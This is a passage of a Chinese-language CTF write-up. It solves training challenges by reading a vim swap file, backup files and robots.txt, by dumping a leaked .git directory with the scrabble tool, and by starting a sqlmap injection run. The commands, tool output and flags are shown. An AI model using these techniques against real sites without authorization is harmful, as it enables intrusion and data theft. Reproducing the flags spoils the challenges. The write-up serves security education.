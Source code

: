 `vim -r .index.php.swp`可以看到以下关键信息，得到`flag3:p0rtant_hack}`。

```php+HTML
<p>hack fun</p>
<?php echo 'flag3:p0rtant_hack}';?>
```

访问`/index.php~`可以看到`flag2:s_v3ry_im`。访问`/robots.txt`可以看到以下信息：

```html
User-agent: *
Disallow:
/flag1_is_her3_fun.txt
```

访问`/flag1_is_her3_fun.txt`得到`flag1:n1book{info_1`，拼接以上信息可得`flag`：`n1book{info_1s_v3ry_imp0rtant_hack}`。

------

### [粗心的小李](https://ce.pwnthebox.com/challenges?id=280)

常规的`git`泄露，直接运用现成工具获取网站源码或`flag`，比如https://github.com/denny0223/scrabble。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/tools]
└─$ ./scrabble https://1254-3931ae23-9b01-4ec8-8e51-1039f8cb43d5.do-not-trust.hacking.run
提示：使用 'master' 作为初始分支的名称。这个默认分支名称可能会更改。要在新仓库中
提示：配置使用初始分支名，并消除这条警告，请执行：
提示：
提示：  git config --global init.defaultBranch <名称>
提示：
提示：除了 'master' 之外，通常选定的名字有 'main'、'trunk' 和 'development'。
提示：可以通过以下命令重命名刚创建的分支：
提示：
提示：  git branch -m <name>
已初始化空的 Git 仓库于 /home/tyd/ctf/tools/.git/
parseCommit 213b7e386e9b0b406d91fae58bf8be11a58c3f88
downloadBlob 213b7e386e9b0b406d91fae58bf8be11a58c3f88
parseTree f46fbac4149604ca13a765950f9a2d1fd8c1c7ad
downloadBlob f46fbac4149604ca13a765950f9a2d1fd8c1c7ad
downloadBlob 1e0db5d96b5cc9785055c14bbec0e7ad14f48151
HEAD 现在位于 213b7e3 flag
```

`cat index.html`即可找到关键信息`n1book{git_looks_s0_easyfun}`，提交即可。

------

### [SQL注入-1](https://ce.pwnthebox.com/challenges?id=281)

直接用`sqlmap`进行爆破，`--current-db`获得当前数据库的名字`note`：

```bash
┌──(tyd㉿kali-linux)-[~]
└─$ sqlmap -u "https://1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run/index.php?id=1" --current-db
        ___
       __H__                                                                                              
 ___ ___["]_____ ___ ___  {1.6.7#stable}                                                                  
|_ -| . [']     | .'| . |                                                                                 
|___|_  ["]_|_|_|__,|  _|                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                              

```